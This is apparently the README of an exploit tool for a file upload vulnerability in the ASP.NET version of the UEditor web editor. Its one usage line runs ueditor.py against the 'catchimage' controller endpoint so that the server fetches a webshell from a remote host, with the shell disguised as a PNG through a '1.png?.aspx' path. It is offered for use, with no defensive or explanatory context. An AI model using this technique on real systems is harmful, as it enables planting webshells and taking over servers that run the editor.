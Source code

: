 # UEditor
UEditor-ASP.NET版本文件上传利用

python ueditor.py -u <url http://xxx.com/ueditor/net/controller.ashx?action=catchimage> -shell <shell path http://xxx.com/1.png?.aspx>
